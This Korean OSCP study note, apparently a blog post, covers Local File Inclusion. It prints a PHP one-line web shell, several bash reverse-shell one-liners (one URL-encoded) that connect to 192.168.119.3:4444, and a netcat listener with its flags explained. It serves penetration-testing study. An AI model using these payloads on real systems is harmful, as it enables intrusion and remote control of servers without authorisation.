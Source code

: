 ```yaml
---
layout: post
title: 9.2. File Inclusion Vulnerabilities
subtitle: 파일 인클루전
author: 마준영
categories: oscp
tags: 
top: 0
---
```

## 9.2.1. Local File Inclusion (LFI)

LFI취약점은 언뜻 보면 디랙토리 트래버셜과 비슷해보이지만 차이가 있다.
1. 디렉토리 트래버셜 : 웹 서버의 웹 루트 외부에 있는 파일 내용을 읽는 데 사용됨.
2. LFI : 애플리케이션의 실행 중인 코드에 파일을 포함 시킴.
   이로 인해 파일을 실행하거나 비실행 파일의 내용을 표시할 수 있음.
결론 : 디렉토리 트래버셜은 정보를 수집한다면, LFI는 RCE의 역할을 수행한다고 볼 수 있다.

#### 관련 코드 및 명령어
1. PHP 한줄 웹쉘
   ```php
<?php echo system($_GET['cmd']); ?>
```
2. 리버스쉘

   ```shell
   bash -i >& /dev/tcp/192.168.119.3/4444 0>&1
   bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
   bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
   
```
3. Netcat을 이용해 리버스쉘 대기
   - **`nc`**:
    
    - Netcat 실행.
- **`-n`**:
    
    - DNS 이름 확인 없이 **순수 숫자 IP**를 사용.
    - 더 빠르고 간단하게 연결을 처리.
- **`-v`**:
    
    - **상세 모드**(verbose mode).
    - 작업 내용을 자세히 출력(예: 연결 상태, 수신된 데이터).
- **`-l`**:
    
    - **수신 대기(listen)** 모드.
    - Netcat이 클라이언트의 연결 요청을 기다림.
- **`-p 4444`**:
    
    - 특정 **포트 번호(4444)**를 지정.
    - 클라이언트가 이 포트로 연결을 시도.
   ```shell
   nc -nvlp 4444
```
